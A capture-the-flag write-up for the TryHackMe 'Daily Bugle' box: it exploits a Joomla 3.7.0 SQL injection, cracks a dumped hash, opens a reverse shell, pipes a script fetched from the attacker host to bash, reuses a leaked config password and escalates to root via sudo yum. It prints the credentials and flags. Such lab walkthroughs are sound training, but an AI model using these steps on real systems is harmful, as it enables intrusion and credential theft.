 ```yaml
---
title: TryHackMe - Daily Bugle
description: My writeup on Daily Bugle box.
categories:
 - tryhackme
tags: tryhackme whatweb joomla joomscan searchsploit sqli john linpeas sudo yum bash
---
```


![](https://i.imgur.com/Ilrzate.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Daily Bugle**  |
| Difficulty :  | **Hard**             |
| Play :    | [Daily Bugle](https://tryhackme.com/room/dailybugle){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello, i don't know why this box rate is "hard" more like easy/medium. let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.94.113
$ nmap -sC -sV -oN nmap/dailybugle.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-18 14:28 EET
Nmap scan report for 10.10.94.113 (10.10.94.113)
Host is up (0.12s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

The website is running joomla, we can detect that using `whatweb` too.

```
$ whatweb http://$ip/ | tee scans/whatweb.txt
http://10.10.94.113/ [200 OK] Apache[2.4.6], Bootstrap, Cookies[eaa83fe8b963ab08ce9ab7d4a798de05], Country[RESERVED][ZZ], HTML5, HTTPServer[CentOS][Apache/2.4.6 (CentOS) PHP/5.6.40], HttpOnly[eaa83fe8b963ab08ce9ab7d4a798de05], IP[10.10.94.113], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PHP[5.6.40], PasswordField[password], Script[application/json], Title[Home], X-Powered-By[PHP/5.6.40]
```

Let's fire up a `joomscan`.

```
$ joomscan --url http://$ip/ | tee scans/joomscan.txt

Processing http://10.10.94.113/ ...           

[+] FireWall Detector                         
[++] Firewall not detected                    

[+] Detecting Joomla Version                  
[++] Joomla 3.7.0                     

...data...
```

We got the version, let's search for possible exploits.

```
$ searchsploit joomla 3.7.0
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                 |  Path
----------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                     | php/webapps/42033.txt
```

## Shell as www-data

Perfect, i found another exploit on github that does all the job. You can find it [here](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py){:target="_blank"} Let's download it and fire it up!

```
$ python joomblah.py http://$ip/

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Now let's crack the password hash using john. (takes some time)

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
```

Let's login now under `/administrator` and spawn a reverse shell. If you dont know how to spawn a reverse shell check my writeup on [DC3 box](https://0xatom.github.io/vulnhub/2020/12/20/dc3/){:target="_blank"}

```
$ nc -lvp 5555
listening on [any] 5555 ...

sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ whoami;id
apache
uid=48(apache) gid=48(apache) groups=48(apache)
```

## Shell as jjameson

Let's fire up now [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite){:target="_blank"}

Download the script and open a python SimpleHTTPServer.

```
$ python3 -m http.server 80
```

Now transfer the file and pipe it to bash.

```
bash-4.2$ curl http://10.9.234.105/linpeas.sh | bash
```

Looking through the output i detected a password:

```
/var/www/html/configuration.php:        public $password = 'nv5uz9r3ZEDzVjNu';
```

We can switch to user `jjameson` now.

```
bash-4.2$ su - jjameson
Password: nv5uz9r3ZEDzVjNu

[jjameson@dailybugle ~]$ whoami;id
jjameson
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```

## Shell as root

Checking the `sudo -l` as always, we can run `yum` as root.

```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

Checking the [GTFObins page](https://gtfobins.github.io/gtfobins/yum/#sudo){:target="_blank"} there are lot of commands that we have to write..

![](https://i.imgur.com/wfBAcXi.png)

We will create a shell script in our box with all the commands and transfer it to target box.

![](https://i.imgur.com/2MPtU5D.png)

Let's read the flags.

```
sh-4.2# cat /root/root.txt; cat /home/jjameson/user.txt                                                                                                                          
eec3d53292b1821868266858d7fa6f79                                                                                                                                                 
27a260fe3cba712cfdedb1c86d80442e       
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
